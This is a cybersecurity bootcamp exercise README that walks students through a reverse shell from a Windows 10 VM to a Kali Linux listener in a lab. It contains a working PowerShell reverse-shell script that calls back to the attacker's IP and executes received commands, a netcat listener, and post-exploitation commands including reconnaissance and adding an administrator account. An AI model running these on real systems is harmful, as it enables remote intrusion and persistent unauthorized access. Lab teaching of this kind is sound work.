 <!-- hide -->
# Windows CMD Commands for Remote Hacking

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![Twitter Follow](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.
<!-- endhide -->

<onlyfor saas="true" withBanner="false">

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.

### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

</onlyfor>

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.

![imagen](assets/powershell.png)


With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:

![imagen 1](assets/listening_dir.png)

### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```

![imagen 2](assets/systeminfo.png)

- **Get network configuration:**:
```bash
ipconfig
```
![imagen 3](assets/ipconfig.png)

- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:

![imagen 4](assets/hostname.png)

- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)

## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

